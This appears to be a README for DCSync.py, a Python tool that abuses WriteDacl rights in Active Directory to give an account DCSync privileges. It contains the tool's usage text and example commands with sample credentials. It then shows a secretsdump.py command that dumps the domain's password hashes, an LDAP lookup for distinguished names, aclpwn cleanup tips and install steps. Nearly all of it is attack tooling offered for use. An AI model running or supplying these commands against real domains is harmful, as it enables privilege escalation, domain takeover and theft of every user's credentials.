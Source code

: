 # Adding DCSync Permissions
Mostly copypasta from https://github.com/tothi/rbcd-attack
```
usage: DCSync.py [-h] -dc FQDN -t USERNAME [-hashes LMHASH:NTHASH] [-k] identity

WriteDacl Attack: To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

positional arguments:
  identity              domain\username:password, attacker account with write access to target computer properties (NetBIOS domain name must be used!)

options:
  -h, --help            show this help message and exit
  -dc FQDN              FQDN of the Domain Controller
  -t USERNAME           Target user to be escalated in format *Distinguished Names*
  -hashes LMHASH:NTHASH
                        Hash for LDAP auth (instead of password)
  -k                    If you want to use a Kerberos ticket

 Examples:
     dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator:Password123
     dcsync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator -k
     dcsync.py -dc dc01.n00py.local -t 'CN=spoNge369,CN=Users,DC=n00py,DC=local' 'n00py.local\user_with_writeDACL:P@$$w0rd123'

 DCSync Attack:
     secretsdump.py 'n00py.local/spoNge369:passw0rd123!@dc01.n00py.local'

 Search Distinguished Names(DN) of spoNge369:
     pywerview get-netuser -u'any_valid_user' -p'password321$' -t dc01.n00py.local | perl -wnlE'print if/distinguishedname.+spoNge369/'
  
```

To clean up after you are done, use ACLpwn https://github.com/fox-it/aclpwn.py. This tool is pretty old and not maintained, but you can get it to work. One thing you will need to do is replace “neo4j.v1” with just “neo4j” in database.py. To restore the ACLs to the original configuration, use the restore state file created by the DCSync tool.




## Dependencies:

Impacket <br>
`pip3 install pywerview`

For kerberos:
```
apt install heimdal-dev -y
apt install libkrb5-dev -y
python3 -m pip install gssapi
```
